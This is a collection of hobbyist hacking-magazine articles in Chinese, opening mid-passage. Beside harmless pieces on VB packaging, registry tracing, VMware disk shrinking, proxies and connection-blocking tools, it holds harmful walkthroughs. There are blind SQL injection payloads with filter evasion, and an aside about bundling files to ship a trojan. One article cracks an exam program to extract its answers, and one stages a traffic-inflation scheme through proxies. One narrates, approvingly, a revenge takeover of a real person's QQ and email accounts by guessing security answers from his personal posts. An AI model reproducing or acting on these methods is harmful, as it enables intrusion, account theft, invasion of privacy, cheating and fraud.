- 搜索时发过滤参数的，比如 `keyword=关键字`，SQL 语句原貌大致如下：`Select * from 表名 where 字段 like '%关键字%'`。注入的参数为 `keyword=' and [查询条件] and '%25'='`，即生成语句为：`Select * from 表名 where 字段 like '%' and [查询条件] and '%'='%'`。接着，将查询条件替换成 SQL 语句，猜解表名，比如 `ID=55 And (Select Count(*) from Admin)>=0`。

如果页面就与 `ID=55` 的相同，说明附加条件成立，即表明 Admin 表存在；反之，则不存在。如此重复，直至猜到表名为止。表名猜出来后，将 `Count(*)` 替换成 `Count(字段名)`，比如 `username` 等，使用同样的原理猜解字段名。其中可以配以一些小的变化，比如将 `select` 的 `e` 换为 `45%`，还可以进行大小写替换，以不被防注入系统过滤。

# 小菜VB相关文件？VB-PowerWrap与“家眷”搞定它

秋风の陨落&千朵

经常使用 VB 的菜菜们都知道，只要是用到了“引用”或者“部件”，编译出来的程序就必须带有这些关联的文件，如图1。这些文件要么放在与程序相同的目录下，要么放在 system32 目录下，系统就会自动为我们注册关联的文件。一旦系统没有找到相应的文件，运行程序时就会报错，如图2。就这点来讲，VB 的可移植性还是相对较差的。

VB-PowerWrap 是在编写 VB 程序时用来给系统文件 dll、ocx 打包发布的程序。打开安装包，一路 Next 就行了，主程序界面如图3所示。为了照顾英文不好的小菜，我标注了一下，不多说了。在使用前，先编译出写好的程序，然后点击程序的 VB Project 按钮，接着在弹出的窗口中点击右上角的小图标，来打开刚才编译的 EXE 文件，如图4。


图1


图3


图2

刚接触 VB 的小菜们会好奇这些到底是什么文件，我顺便介绍一下常见的两种文件格式：

- `.ocx` 文件：控件文件，VB 中各种控件的加载。用户可以自己开发，封装成 ocx 控件；
- `.dll` 文件：动态链接库文件，既可以用作控件，也可以引用到程序中来。多数情况下，引用就是为了调用库文件中的某些函数。


图4

或许菜菜们会和我一样苦恼，好不容易写个东西出来，还要带着这么多“家眷”，多麻烦啊！要是写个木马，总不能都发给人家吧？正巧最近泡论坛，淘到了 PowerWrap，就让我们用它来搞定 VB 的家眷。

打开后又会弹出对话框来打开源程序的 Vbp 文件，如图5。打开两次后，稍等一会儿就可以看到与程序相关联的 dll、ocx 文件了，如图6。在最下方我们也可以选择项目类型（Select Project Type），默认为 VB6。那个 Delete 按钮，可以把我们不要封装的文件剔除掉。按下 Done 就可以完成文件的加载，返回到主界面。

在主界面可以清空（Clear）刚才要封装的那些文件，也可以添加（Add）、删除（Delete）文件。最后，选择一个优化模式：大小优化（Size）或者速度（Speed）优化，然后按 Make 即可封装文件，如图7。怎么样，简单吧？对于像我这样的新手小菜，还可以在压缩级（Compression）选项中调整压缩比的高（High）低（Low）。制作出文件后，还可以看图标（Stats），看看封装的情况。

```vb
FileSize = 61440  '这里改成资源文件的大小，单位是字节

Dim Load_res() As Byte
Dim Counter As Long

Load_res = LoadResData(101, "CUSTOM")  '101是文件标识，文件多了很容易搞混

Open App.Path + "\FKButton.ocx" For Binary As #1
'二进制文件打开，写到当前目录下
'Open "C:\Windows\System32\FKButton.ocx" For Binary As #1
'也可以这么写，写到系统目录

For Counter = 0 To FileSize - 1  '数组是从0开始的，必须减1
    Put #1, , Load_res(Counter)
    DoEvents  '转让系统控制权，防假死，很多人忽视这个细节，在循环里很重要！
Next Counter

Close #1  '关闭文件
'这里可以重复使用此方法，多输出几个文件！
Form1.Show  '载入窗体
End Sub
```


最后将启动对象设为 `Sub Main()` 即可。

可怜程序在封装完成后加了 PECompact 壳，如图8，必要的话，大家可以脱掉它。其实我看好的不是它的封装，而是分析 VB 程序所关联到的 dll、ocx 文件。知道了关联的文件，我们完全可以自己搞定它了。将关联文件作为资源（RES）加载到 VB 的资源管理器中，建立一个模块。调用模块将资源输出，然后加载 Form 窗体即可。再给出一段代码，如果信不过程序，大家自己搞定吧！

```vb
Sub Main()
Dim FileSize
```


（文章中所用到的 VB-PowerWrap、VB6.0 精简版已收录到光盘中）


# 简单搞定“计算机等级考试系统”

海棠血泪

大一上半学期一转眼就过去了，同学们都在积极地为期末考试做着准备。就拿计算机来说吧，机房里整天是人满为患。这学期我们学的是计算机文化基础，听起来很简单，可一看题目才知道，及格容易，想拿高分却难。有些知识点考得太细、太琐碎了，虽说有题库，可动辄几百道题难免会让人看得眼晕，更何况听说这回还加了不少新题，看来需要另想办法才行了。

首先说一下我们考试的流程：进入界面后，2次确认准考证号码，系统就会随机生成试题，一切就绪后，考试开始。2分钟后就可以交卷了，交卷后，模拟版的系统会直接给出分数。我的思路就是，能不能在考试时将题库截取？这样主动权就把握在我们手中了。


来看一下考试程序所在的文件夹，很简洁，只有一个 exe 文件，以及一个 data 文件夹。文件夹里有2个文件：一个是 tmp 临时文件，可以不用管它；另一个在文件名中出现了 mdb，这不由得引起了我的怀疑，如图1。这个就是传说中的题库吗？我将后缀 crp 去掉，直接将文件名改为 testKt.mdb，结果 Access 无法识别该文件。

那我们就直接拿程序开刀好了，使用 PEiD 对 exe 文件查壳，发现没有加壳，程序是使用 Delphi 编写的。使用 OllyDbg 载入程序，点击右键，在“超级字符串参考”中选择“查找 ASCII”，慢慢往下拉，注意图2中我框起来的部分。


这证明了我刚才的猜测，testKt.mdb.crp 就是题库，程序通过某些代码将它还原成了 mdb 并将试题载入。现在，我们下一步的目标也很明确了，就是尝试将还原后的 mdb 提取出来。双击“004DF0BF 提示”那一行，转到了相应代码处，按 F2 下断点，再按 F9 运行。考试登录界面被调出来了，2次输入准考证号（11个1）后确定，程序被中断下来了。


再次按 F2 取消断点，按 F8 单步运行。当走到 004DF0D0 时程序再次被中断，考试界面弹出了对话框，再来看 data 目录下，真正的 mdb 文件已经被还原出来了，赶紧将它复制到桌面备用，如图3。

打开刚才复制出来的 mdb 文件，在 single select 表中我们发现了全部的单选题，但是没有答案啊？不要心急，我们做2道题后就会发现答案全部是 A 了，如图4。哈哈，单选题的答案就这样到手了，多选、判断题也都是一个原理，不再赘述。操作题只能自己做了，不过我想对于经常玩“黑”的文子们来说，复制粘贴、设字体字号、添加动画效果什么的应该是小菜一碟吧。

可在真正的考试时是不能带 OD 进去的啊，如何在恰当的时候复制出 mdb 呢？我们接着来分析。退出 OD，重新运行考试程序，时刻关注着 data 文件夹的变化，发现在试题载入完毕弹出对话框时，mdb 还在；当我们点击了确定，进入到考试界面后，mdb 就不见了，如图5。大家想到了什么？是的，就是载入完成后，不要忙着点确定，而是抓紧将题库复制出来！


到这儿整个流程就已经很清楚了：当考生输入了正确的准考证号后，程序自动将题库还原成 mdb 文件，并调用相关的数据库随机打乱顺序生成备选项。当考生点击确定后，删除 mdb 并弹出考试界面。交卷后，程序将考生给出的答案与预先载入的正确答案进行对比，给出分数。至此我们已经揭开了这个考试程序的秘密。还是那句话，遇到问题要多多思考，多多尝试，总会有解决办法的。

# 记小菜的一次社工复仇

某日，闲得无聊，就想好好捕杀一只木马来留着自己使用，但无奈一时间找不到满意的木马，于是在论坛上发了一个找马的帖子。令人气愤的是，某人竟然直接发给我一个服务端程序，幸亏是在虚拟机中，要不然小菜我岂不变成别人的肉鸡了？由此，小菜我决定社工来报复他一下！

我的目标就是夺取他的 QQ。首先来找回 QQ 密码，查看一下他的密保问题，如图1。知道了问题后，我们再通过 QQ 资料来看看能不能发现些什么信息，如图2、图3。从图中我们知道了他的邮箱、年龄、毕业院校等等，当然了，真实性还有待验证！

先来破解一下邮箱，发现需要回答密保问题才行，如图4。对于这种问题，QQ 空间或博客的个人档案中一般会涉及到，但遗憾的是此人没有填写，如图5。不过，小菜我在浏览日志的时候，还是发现了一个重要的资料，如图6。

大家都知道，“点名”这个游戏的一个特点就是问题多，并且被点名者一般都会填写。果然，我在问题里发现了一条重要的信息，如图7，尝试着在邮箱的密保问题处填写“《我的女友是机器人》”，终于顺利地进入了邮箱中，如图8。


| 性别 | 年龄 | 生日 | 出生地 |
|---|---|---|---|
| 男 | 19 | 8月1日 | 北京 |


> 转载内容与邮箱线索等说明文字（图9）

| 邮箱 | 语言 | 职业 | 毕业院校 |
|---|---|---|---|
| （可见邮箱） | - | - | 北京四中 |


> Q7：最喜欢什么电影？  
> 答：《我的女友是机器人》


在对方的邮箱中我继续尝试着搜集信息，但无奈该人的安全意识还是比较好的，或者是这个邮箱不经常使用，总共也没几封邮件。不过还是让我在垃圾箱里发现了一封，是“北京山东人网”发过来的激活邮件，如图9。这里我们可以大胆地猜测一下，他可能是山东人，在北京上学或工作，当然，这个也有待验证。

下一步，我们主要搜集他配偶的姓名信息，这是个复杂的工作。小菜我花了半个小时也没什么头绪，但最终还是在他的QQ个性签名中发现了点猫腻，如图10。看来他的配偶应该叫“彤”，但一味地猜测是不行的，还需要继续寻找信息。社工靠的是信息的分析与发现能力，当我再次看到日志“zh—给你的信”时，我突然想到，“T”是“彤”字的第一个字母，“Z”或许就是“张”或是“赵”等姓氏的第一个字母。于是我就这样一个一个地尝试，最终以“张彤”为名，以“山东”为地址，顺利地获得了QQ权限。


到此，这次社工复仇就圆满结束了。为了留点足迹，小菜我特意修改了他的QQ个性签名以作为教训，如图11。


这也提醒了我们，以后上网时提高自己的安全意识固然重要，但最重要的还是提高自己的道德修养！


想必筒子们平时发短信都是使用飞信，打电话都是使用evaphone（http://evaphone.com/）和嘀铃铃（http://www.dilingling.com）的吧。免费的午餐让很多叉子乐得爽歪歪，不过这似乎还少了点儿什么。对，如果彩信也能免费发那就更好了。本文我就把免费发彩信的小技巧分享给大家，希望大家能够喜欢。

免费发彩信，不少人都会想到移动139邮箱赠送的限量彩信，但是139邮箱在大多数省份开通时是收费的，不太划算。今天我要介绍的就是彩信相册免费发送法。彩信相册是移动梦网为用户提供的存放彩信、图片、音乐和短语的网络空间，通过彩信相册，我们可以免费把电脑上DIY好的彩信发送到自己手机上，以方便用户转发。虽然只能免费转发到自己手机上，但是我们可以变通思考一下，如果给对方（接受者）申请一个彩信相册的话，那我们不就可以实现免费发彩信了吗？况且很多人发彩信的对象都是比较固定的。


进入正题，登录移动的彩信相册“http://photo.monternet.com/web/album/”（不喜欢输入网址的叉子，可以在百度上搜索“彩信相册”，第一个搜索结果就是），然后进行注册。注册是完全免费的，大家不用担心，注册过程中需要手机验证码。

这儿大家要注意，手机号应该填写对方的手机而不是你自己的手机，另外验证码也要注意大小写，如图1。


注册完毕后登录彩信相册，界面如图2所示，点击“我的图片”就可以上传图片了，点“我的音乐”可以上传铃声，上传文件的大小都不能超过100K。图片或音乐上传成功后，我们就能在“我的图片”和“我的音乐”中看到它们了，选择它们，然后点“转发彩信发送”就可以免费发送彩信给TA了。我们还可以通过“彩信DIY”来DIY一条图文并茂的个性彩信，如图3。编辑完成后，在网页左侧的预览窗口中点“发送”就可以了。


发送界面如图4所示，需要注意的是验证码一定要区分大小写，否则会提示错误的，如图5所示，成功向我女朋友发送了一条《黑客X档案》的测试彩信。


使用这种方法，我给老妈也申请了一个，方便在外上学时发送一些生活照片，省得她老人家牵挂了。给女朋友申请一个，发送一些有趣彩信，让爱情更甜蜜；给几个朋友也分别申请了，好巩固彼此的友谊。

# 菜鸟解密网易闪电邮

清原 长风

我是网易163邮箱的一个老用户，网易推出闪电邮已经有一段时间了，最近我出于好奇便下载用了用。以前，我是自己制作了一个网易邮箱的登录器，它是基于构造包含登录用户名和密码URL来实现的，但是这样并不是很安全；如果有人嗅探的话，账户就不安全了，所以我出于安全考虑才决定试用这个闪电邮。但经过我的简单研究，发现它似乎存在一些安全缺陷，详细情况请听我慢慢道来。

想必许多朋友都在使用它，其界面如图1所示。我们先来新建一个账户，账户名就填我的网易邮箱clzzy@4q.com，密码（text_0x123456）也要填写上，创建完成后如图2所示。接下来我们该思考一个问题了：这个程序不需要你每次输入密码，打开就可以收发邮件，那么密码就一定是存储在本地电脑中的。那么会是在哪里呢？是在注册表里，还是在某个文件里面？带着疑问我就使用主动防御软件监视了注册表的修改情况，但一无所获；又使用Filemon监视了创建账户的全过程，如图2，但只看到一大堆文件被创建了，看来只有自己到安装目录下去探秘了。


借着Filemon的监视信息，我们可以知道每个账户信息都被保存在了一个目录中，目录名也就是账号的邮箱地址。来到安装目录下，发现了一个名为account的目录，进去之后就是账户目录了，里面的文件有很多，如图3。我只能根据名称来判断哪些文件可能与账户有关，直到找到一个名为Account.stg的文件。我使用EditPlus打开后，如图4所示，当时就心里一喜，这应该就是我要找的文件了，账户名列出来了，但是并没有明文的密码。我又仔细观察这一串字符串“dGV4dF8weDEyMzQ1Ng==”，聪明的你应该想到什么了吧？这不是BASE64加密方式吗？难道程序将我们设定的账户密码使用BASE64算法加密后存储的？为了验证我的猜测，我特地找了一个Base64算法模块，自己制作了一个转换程序，转换结果如图5所示，与我的猜测完全吻合。这个闪电邮完全是采用可逆的BASE64加密算法来加密我们的密码的，大家也可以自己下载这类编码工具检验一下。


以上就是我的发现。可怕的是这个BASE64算法是可逆的，拿到这个文件也就相当于得到一个网易邮箱了，使用这个闪电邮的朋友们可要小心了。个人认为这个加密后转存密码的过程可以再做得复杂点，比如采用二次MD5，这样不可逆的算法岂不更好？

> （文章中所用到的EditPlus已收录到光盘中）


# 终极代刷——一分钟刷几千个“百度空间流量”

我们先来了解一下百度空间是如何统计流量的：登录用户一天只算一次，匿名的用户每登录一次就算一次流量。好了，我的思路就是让很多拥有不同IP地址的计算机在十分钟内反复访问我的百度空间……于是我又想到了代理服务器……只要把代理猎手的验证地址改为你百度空间的地址，那样代理猎手就会自动使用代理服务器来访问你的空间了。

打开代理猎手，点左上角的“系统”->“参数设置”->“验证数据设置”->“添加”，如图1。“验证名”可以随便填写，只要自己记得住就行；“验证类型”就选择“特征字符串”；“验证地址”就填写你自己的百度空间地址，然后点击后面的“获取”按钮，如图2……下一步就是导入代理服务器地址，然后再验证就可以了。


我们到代理之家的论坛获取当天的代理服务器地址，把代理服务器地址保存在记事本里。点击代理猎手的“搜索结果”->“导入结果”（导入刚才保存的代理服务器地址），如图3，最后点“验证全部”就可以了。


## 不过这种方法有以下几个缺点：

- 1. 有些代理服务器已经不能使用了，而代理猎手仍然要用这些代理服务器去验证，这样很浪费资源。解决的办法就是先验证，然后再删除不可用的代理服务器。验证完了后再点“精简结果”，勾选除“Free”外的所有选项，最后点击“确定”，如图4。
- 2. 精简后的代理服务器一般只有几百个，如果要十分钟内刷五千个百度空间流量，那么每验证完一次还要再点一次“全部验证”也很麻烦。解决的办法就是导出精简后的结果，然后打开导出到记事本的代理服务器地址，全部选中进行复制粘贴，直到粘贴到你觉得可以了为止，然后再点“导入结果”选中刚才的记事本。我一下子导入了差不多15000个，如图5，最后“全部验证”就又可以了。


来看看我的成果吧。我新申请了一个百度号，刚开通的空间流量如图6所示，使用这种方法刷了十分钟后的流量如图7所示。大家看到了吧，十分钟就刷了5466个流量。有时候一个软件会有让人意想不到的功能，所以平时我们要多多观察，多多思考，当然还要善于总结。

> （文章中所用到的代理猎手已收录到光盘中）

# Google黑洞

## 免费翻墙软件GAppProxy

丁维竹


我先问问大家，你们都使用过哪些翻墙的软件？在线代理网站、花刺代理、各种免费VPN，从不怀好意的自由门、无界浏览到洋葱头套件，再到最新的puff……你都使用过哪些？对它们的满意度又如何？如果你经常会需要使用http代理的话，那么我有一个好消息要告诉你：全世界最伟大的互联网公司Google为我们提供了一款强大的免费http代理软件——GAppProxy！

GAppProxy即Google App Engine Proxy（Google应用程序引擎代理软件）的缩写，它是Google App Engine（谷歌应用程序引擎）项目推出的一款免费开源的http代理软件，程序由Python语言编写，运行于Google App Engine上。关于更多的GAppProxy和GAE（Google App Engine）的背景资料我就不在这里赘述了，大家可以到GAppProxy的主页“http://code.google.com/p/gappproxy/”去了解更多的信息。本文的目的只是向大家介绍GAppProxy这款翻墙软件的使用方法。

首先，我们需要使用自己的Google账户注册Google App Engine服务，如果你还没有Google账户的话，可以免费注册一个。当我们使用Google账户登录到Google App Engine后，就会看到如图1所示的界面。

点击页面中的“Create an Application”按钮，即创建一个应用程序的意思。接下来Google需要对你进行手机验证，在图2所示的“Mobile Number or Username:”中输入你的手机号（号码前面要加86），然后点击“Send”按钮发送，很快你的手机就会收到Google发来的验证码短信了。通过手机验证后就进入了创建应用程序的详细界面，如图3。


在“Application Identifier:”一栏中输入你想要的应用程序地址，Google提供了一个免费的yourname.appspot.com的二级域名，下面的“Application Title:”一栏即应用程序的标题，这个可以随便填写。点击“Save”按钮完成应用程序的创建，请记住你在前面“Application Identifier:”一栏中填写的应用程序地址，后面在配置GAppProxy的时候会用到。

接下来需要下载GAppProxy和FetchServerUp这两个压缩包……当然我们也可以使用别的代理工具到GAppProxy的主页去下载。

解压fetchserverup.rar这个压缩文件，使用系统自带的写字板程序修改解压出来的fetchserverup目录下的app.yaml文件……比如修改为“application: dwz1988”，其它地方不用修改，如图4。


图3


图4

接下来打开命令提示符，进入刚才解压出来的fetchserverup目录……输入命令`SDUpload update fetchserver`，把配置好的应用程序上传到Google App Engine的服务器上。

现在我们来测试一下应用程序是否已经正常运行在Google App Engine上面了，打开浏览器访问应用程序地址……如果出现图5所示页面，就说明GAppProxy已经安装成功了！


图5

解压gappproxy.rar这个文件到任意目录，打开其中的gui.exe文件，勾选“Use FetchServer”并输入应用程序地址……点击“Status”确认代理运行正常，再点击“Hide”把程序最小化到系统托盘，如图6。


图6


图7

最后设置IE浏览器的代理为“127.0.0.1:8000”，就可以使用GAppProxy代理上网了，相信这一步大家应该都很熟悉吧，如图7。我们来尝试访问被屏蔽的视频网站YouTube，看看效果怎么样，如图8。

现在我们已经拥有了一个专属于你个人的Proxy服务了。由于GAppProxy运行在Google App Engine上，得益于Google强大的云计算处理能力和良好的带宽，因此能带来很流畅的浏览环境，这一点可是其它任何代理软件所不能比拟的！


（文章中所用到的GoogleAppProxy套件、写字板程序已收录到光盘中）

## Vpn让我网络游更便捷

白雪龙（hx小龙）

大家都明白，VPN有助于我们网络隐身，而且访问国外的某些网站也能达到高速流畅的目的。免费的VPN虽不多见，但我们的目标很简单，只要可以达到代理的效果就足以。因此本文就为大家带来了一款比较实用的VPN代理软件，让每个人都可以网络轻松隐身。

在使用它之前，我们先来了解一下，513vpn是为了解决玩家跨网连接游戏服务器速度过慢而开发的VPN代理器。它的官方网址为http://www.513vpn.com，下载登录器后界面如图1所示。

要使用免费VPN，首先需要在http://www.513vpn.com/513zcsm.htm注册一个账号，按网页要求填写账号、密码、身份证等基本信息，最后在用户类型里选择“国内VPN用户”。注册后进入后台管理中心，可获得初始测试时长，如图3。


一块钱的余额可以体验一周（7天）的VPN代理，过期后可重新申请体验。接下来在“个人管理”->“个人购买产品”中购买免费VPN相关选项，如图4。若要使用国际版VPN，则在注册时选择“国际VPN”用户即可。


打开下载好的VPN登录器，选择合适的服务器，在用户名和密码处填写注册信息并登录，然后打开www.ip138.com查询IP地址，即可看到已经代理成功，如图5。


（文章中所用到的513vpn国际中文版、513vpn国内中文版已收录到光盘中）


# 简简单单追踪注册表

火の魂


某日，小菜我突然发现Windows 7系统下右键属性里的安全选项莫名其妙地消失了，如图1所示是正常情况下的，而图2则是少了安全选项的。安全选项可以设置文件和文件夹的权限，在防病毒方面起着重要的作用，没有了怎么行呢？我在百度上搜索了半天，也没有找到解决的办法，这下可麻烦了。几天后，我突然发现Windows 7优化大师有个“移除安全标签”的功能，如图3。勾选之后，点保存设置，再把勾去掉，再保存，现在来看看，OK了，问题已经解决了，安全选项又出现了。终于把心头大患给解决了，可是这到底是怎么回事呢？仅仅把问题解决了可不是我们的作风，所以我决定把原因找出来。


第一个直觉就是注册表的问题，可是注册表有那么多的项，不可能一个个去找吧？我突然灵光一闪，记得以前见过一个叫做Regmon的软件可以监控注册表，可是下载后一看，都阉了，居然不支持Windows 7系统，难道就真的没有办法了吗？

突然一个提示让我眼前一亮，大概内容就是Windows有一款适用于Windows 7的类似软件，叫Process Monitor。于是我赶紧下载了一个，果然可以使用。不仅能记录注册表的事件，同时还能记录文件改变的事件，可以说是Filemon和Regmon的结合体。该软件的界面如图4所示。


可是这个程序把所有的事件都记录下来了，分不清哪个才是我们需要的内容。这时我又看到菜单栏里有个过滤器，如图5，可以根据各种条件来过滤。我选择了PID，启动任务管理器，进入进程选项，再点击菜单栏中的“查看”→“选择列”，勾选上“PID”，如图6，现在就可以看到Windows 7优化大师的PID了，如图7。


在Process Monitor的过滤器里填上PID，点击增加就OK了。我们勾选上Windows 7优化大师里面的“移除安全标签”并且保存设置，可以看到Process Monitor里面已经记录下了一大堆东西，如图8。


可是记录下的东西还是太多，其中有大量的注册表操作，一个个找还是太费劲，于是再使用一次过滤器。这次我们选择的是通过操作来过滤，因为我们关心的是对注册表的写入，所以在过滤器里面选择“操作”，“is”右边有个下拉框，选中“RegSet-…”。


“Value”，如图9，这下是不是清爽多了，如图10。改了，希望对小菜们会有所帮助。


现在就好查找了，根据字面的意思，我锁定了一条对“HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoSecurityTab”的修改记录。Windows 7优化大师对这个项的操作是写入数值1，于是很容易联想到把值更改成0。进入注册表，把刚才那一项的值修改成0，再回去看了一下右键属性，安全选项终于出现了。至此，我们就成功追踪出注册表的修改了。（文章中所用到的Windows 7优化大师、ProcessMonitor已收录到光盘中）

# 收缩虚拟磁盘的一个方法


我的虚拟机软件使用的是VMware Workstation，单独划分了一个磁盘分区来存放VMware Workstation的虚拟磁盘文件，使用了一段时间后存放VMware Workstation的虚拟磁盘文件的分区剩余的可用空间越来越少。由于使用的系统是Vista，磁盘分区开始显示红色，看着很不舒服，就想着给这些虚拟磁盘文件瘦瘦身。

在VMware Workstation中存放文件后，虚拟机的虚拟磁盘文件会变大。当你删除虚拟机里的一些用过的无用文件后，虚拟磁盘文件却不会相应变小，也就是虚拟磁盘文件随着你的使用会越来越大。

我到网上搜索一下，找到了以下几种给虚拟磁盘文件瘦身的方法：

- 1. 使用VMware Tools中提供的“收缩”磁盘功能；
- 2. 再创建一个虚拟硬盘，使用Ghost把原来的虚拟硬盘“克隆”到新的虚拟硬盘中，然后再把原来的虚拟硬盘删除；
- 3. 使用VMware Convert，重新导入该虚拟机，创建一个新虚拟机即可。

由于第一种方法使用的是VMware Workstation自带的功能，不像后面两种方法还要使用第三方软件，于是我就决定使用第一种方法。

收缩虚拟磁盘将收回虚拟磁盘中未使用的空间，如果有空闲空间在虚拟磁盘中，这个收缩过程会减少虚拟磁盘文件对宿主机磁盘的空间占用。收缩磁盘是VMware Tools中提供的功能，如果你的虚拟机系统中还没有安装VMware Tools的话需要先安装，这里我早已经安装过了。于是双击虚拟机里的系统托盘中的VMware Tools图标，打开VMware Tools，就会看到收缩磁盘的功能选项。当然我安装的VMware Workstation是原版的，没有经过汉化，对应的功能是“Shrink”，如图1。

“Supported partitions”显示了支持Shrink的虚拟分区，选择我们想要收缩的虚拟磁盘，然后点“Prepare to shrink”，接着一个对话框将显示清理（准备工作）的进度，如图2。进度条跑完后就会出来如图3所示的对话框，询问我们“Do you want to shrink your disk(s) now?”，也就是问我们是否现在收缩虚拟磁盘，点“是”后，一个显示收缩进度的对话框会出现在宿主机中，如图4。


然后耐心地等待收缩完成，收缩完成后会显示如图5的提示，点“确定”就完成了整个收缩过程。图6是原来的一个虚拟磁盘文件，图7是经过收缩后的磁盘文件，由原来的6.51GB收缩到了3.07GB，收缩了一半还多。收缩了几个虚拟机系统的磁盘文件后，多出了将近13GB的可用空间，效果非常不错。

> 在利用VMware Tools中提供的“收缩”磁盘功能收缩虚拟磁盘文件时有几点需要注意：

- 收缩需要你的宿主机磁盘上有不小于你要收缩的虚拟磁盘文件同样大小的空闲空间。
- 2．如果虚拟机虚拟系统有以下情况，收缩功能将不能使用：
  - 包含一个快照
  - 链接克隆的来源
  - 链接克隆
- 3．如果虚拟机虚拟系统中任何一个虚拟磁盘有以下情况，收缩功能将不能使用：
  - 预分配磁盘
  - 没有使用虚拟磁盘独立—持久的模式
  - 非持久模式的遗留磁盘
  - 独立的磁盘引导

另外，为了达到更好的收缩效果，在收缩前可以在虚拟机系统中对虚拟磁盘文件进行碎片整理。如果我们正在使用VMware Workstation，并且皆因虚拟磁盘文件越来越大，那就快使用本文的方法来收缩一下你的虚拟磁盘文件吧！

（文章中所用到的VMware Workstation已收录到光盘中）

# 冬爸杂志：彻底切断非法网络连接的“黑手”

当我们处于网络环境中，运行各种网络程序后，就会在本机和远程主机间建立各种网络连接。在CMD下执行“netstat -an”命令，可以显示当前的所有网络连接信息，但是这种管理网络连接的方式过于简单，我们不仅无法了解目标网络连接和什么进程相关，也无法对网络连接进行有效的控制。实际上，除了正常的网络程序外，病毒、木马、流氓软件等恶意程序也可以在电脑中建立非法的网络连接，达到盗窃重要数据、传播病毒、远程控制、弹出广告等目的。如果不对其进行拦截，无疑会对我们的系统安全构成极大威胁。使用TCPEye、BeeThink IP Blocker、CurrPorts、TCPView等软件，就可以彻底切断非法网络连接的“魔爪”。

## 一、使用TCPEye关闭非法连接

在TCPEye主窗口中显示了当前所有的网络连接项，包括相关进程的名称、本地地址和端口、远程地址和端口、连接状态、协议类型、远程地址所属国家、关联的程序路径、程序名称、开发者、文件描述信息、文件版本等信息，如图1。TCPEye可以动态刷新网络连接信息（默认周期为1秒），在“State”列中以不同的颜色表示目标网络连接所处的状态，绿色表示连接已经建立，黄色表示正在发送数据，浅红色表示正在等待连接，深红色表示连接请求等。

在工具栏上按下倒数第二个按钮，表示仅仅显示打开的监听端口，还没有建立实际连接的“空连接”项目。在工具栏上按下倒数第一个按钮，可以打开网址解析功能，在本地地址和远程地址中就会显示对应主机的名称，用来替代实际的IP地址。如果我们觉得连接列表看起来有些眼花缭乱的感觉，可以使用TCPEye提供的连接自动检测功能，在工具栏上按下第三个按钮，TCPEye就可以对网络连接进行实时监控，当发现新的网络连接后，就会在屏幕右下角弹出提示面板，在其中显示目标连接的远程地址、端口、相关的进程名和所属国家等信息。如果在工具栏上按下第四个按钮，可以激活声音报警功能，当出现新的网络连接后，TCPEye就可以发出报警声提醒我们的注意。

对于可疑的网络连接，可以点击右键，选择菜单中的“Whois IP”，TCPEye可以对该连接的远程地址进行深入分析，并在报告窗口中显示其详细信息，据此可以判断其来历，如图2。选择右键菜单中的“GeoIP Tool”项，TCPEye可以打开Google地图，在其中标识出目标连接远程地址的具体位置。在检测窗口左侧显示主机的名称、所属国家、地区、城市、经度和纬度等信息，如图3。对于来历不明的网络连接，可以点击右键，选择菜单中的“Check With VirusTotal”项，TCPEye可以将相关程序上传到在线病毒检测网站上，进行全面检测分析，确定其是否存在危害性。对于确认是非法的网络连接，点击右键选择菜单中的“Close Connection”项（或者按下“Ctrl+K”键），就可以关闭该网络连接（前提是其处于建立状态）。选择右键菜单中的“Properties”项，可以显示相关进程的详细信息，点击“End Process”项，可以直接中止相关进程的运行。这样，就可以将非法网络连接彻底关闭了。


图1


图2


图3

## 二、使用BeeThink IP Blocker关闭非法连接

和其它软件相比，BeeThink IP Blocker的功能最为强大，它可以在系统中安装特殊驱动模块，从系统底层对网络连接进行管理操作。BeeThink IP Blocker安装完成后会在系统中创建名称为“BeeThink IP Blocker Service”的系统服务，能够跟随系统自动运行。在系统托盘中双击BeeThink IP Blocker图标，在其管理窗口中显示了当前所有网络连接信息，包括其是否处于被拦截状态、连接持续时间、发送数据量、接收数据量、本机地址和远程地址等内容，如图4。选中对应的网络连接项目，点击工具栏上的“Detail”按钮，在弹出窗口中可以动态显示该连接的详细信息，包括传输的数据内容、使用的网络协议、本机和远程主机的端口等，如图5。在目标网络连接的右键菜单中选择“Look up the remote IP address”项，在弹出窗口中就可以对该连接的远程地址进行深入分析，在“Result”栏中还可以得到关于该地址的详细信息，如图6。


图4


图5


图6

对于非法的网络连接，可以在其右键菜单中选择“Add the remote IP address to the IP block list”项，BeeThink IP Blocker就可以将该连接中的远程主机地址发送到拦截列表中，禁止本机和其建立网络连接，达到控制非法连接的目的。按照上述方法，可以将所有的非法连接全部添加到拦截列表中。实际上，BeeThink IP Blocker已经提供了大量的非法连接地址可供下载。打开网址“http://www.beethink.com/BeeGuardian/IPBlocker/IPList.htm”，在其中分门别类地提供了各种地址列表文件，例如点击“Download ADS List”链接，可以下载包含了大量广告连接的地址列表文件，将其解压后得到“ads-trackers-and-bad-pr0n.txt”文件，其中包含了和非法广告连接有关的大量主机名称和IP地址。在BeeThink IP Blocker主窗口工具栏上点击“Merge IP List”按钮，选中上述文本文档，就可以直接将其导入到BeeThink IP Blocker的拦截列表中。在上述网页中还可以按照地区名称下载包含非法连接信息的列表文件。例如点击“America”链接的右键菜单中选择“目标另存为”项，就可以得到包含和美洲地区相关的非法连接地址信息，按照上述方法将其导入到BeeThink IP Blocker即可。实际上，BeeThink IP Blocker还可以直接导入其它软件的地址过滤列表文件，例如eMule的地址过滤文件、APACHE服务器的Htaccess文件、PeerGuardian地址过滤文件等。这样，我们可以方便快捷地在BeeThink IP Blocker拦截列表添加大量地址信息，当本机试图和拦截列表中的地址建立网络连接时，BeeThink IP Blocker即可对其进行拦截。

在默认状态下，当BeeThink IP Blocker启动后即可激活网络拦截功能，点击菜单“Tool”→“Disable Blocking”或者“Enable Blocking”项，可以在激活和关闭拦截功能之间切换。点击菜单“Tool”→“Configure IP List”项，在设置窗口右侧显示拦截列表中的所有地址信息，如图7。勾选“Always allow HTTP protocol”项，表示对于HTTP连接不予限制，当然HTTP连接必须由本机发起才行。其余的设置保持默认即可。点击窗口左侧的“Add”按钮，可以手工添加拦截的目标地址，可以添加单个地址或者地址段。点击“Import”或者“Export”按钮，可以导入拦截列表备份文件或者将拦截列表导出为备份文件，点击“Rules”按钮，可以创建和管理网络连接管理规则。


图7

## 三、使用CurrPorts关闭非法连接

